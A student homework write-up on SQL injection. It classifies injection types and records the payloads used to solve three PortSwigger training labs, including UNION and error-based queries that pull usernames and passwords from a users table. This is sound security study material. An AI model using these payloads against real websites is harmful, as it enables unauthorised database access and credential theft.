

# Homework 8. SQL injections

## Task 1. SQL injections classification

Most commonly, the bulk of SQL injection falls under one of three categories:

- Classic SQLi, also known as "in-band" SQLi
  - Error-based
  - Union-based

- Inferential SQLi, also known as "blind" SQLi
  - Boolean
  - Time-based

- Out-of-band SQLi

### In-Band SQLi

When in-band SQLi is being leveraged, the threat actor or actors in question leverages the same channel of communication to launch their attacks and to gather their results.

Due to this injection's simplicity and efficiency, it is usable by threat actors of various experience levels, making it the most common type of injection in 2024. The two sub-variations of this injection method are as follows:

- **Error-based SQLi**: Using this method, the hacker executes actions that trigger the targeted database to generate error messages. From there, the hacker can leverage the data provided by these error messages to gather more in-depth information about the structure of the database they have hijacked

- **Union-based SQLi**: Using this method, the hacker takes advantage of the UNION SQL operator, which combines multiple statements generated by the targeted database to generate one single HTTP response. This response can then be used by the hacker for malicious means

### Inferential (Blind) SQLi

By leveraging the inferential SQLi technique, the threat actor in question will submit data payloads to the targeted server. From there, they can observe the response of the server to better learn how to break or hijack its structure.

And where does its other name, "blind", come from? Well, this method earned its title due to how data is not transferred from the website database to the threat actor when the technique is in use, making it so the hacker can't see in-band info. As such, inferential SQL injections rely on the response patterns of the server; however, just because their impacts are not as immediate doesn't mean they aren't equally as harmful as the other two injection categories.

Similarly to in-band SQLi, blind SQL injection sub-categories can be boiled down to the following:

- **Boolean**: When using a boolean SQLi, the threat actor will submit a SQL query to the targeted database in order to prompt the app to return a result. The result will vary depending on whether the query is true or false

- **Time-based**: In this technique, an SQL query will be sent to the intended target's database, which, in turn, forces the targeted database to wait before a reaction can be processed. In these precious few seconds, the threat actor will analyze how long the database takes to respond, as well as if the query clocked as true or false

## Task 2. Accomplish PortSwigger labs

### Lab 1. SQL injection UNION attack, determining the number of columns returned by the query

The lab is available by the [link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

The payload:

```sql
'+UNION+SELECT+NULL,NULL,NULL--
```

Result:


> The web page is rendered without errors



### Lab 2. SQL injection UNION attack, retrieving multiple values in a single column

The lab is available by [link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

The payload:

```sql
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--
```

Result:


### Lab 3. Visible error-based SQL injection

The lab is available by [link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)

The payload:

```sql
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

Result:


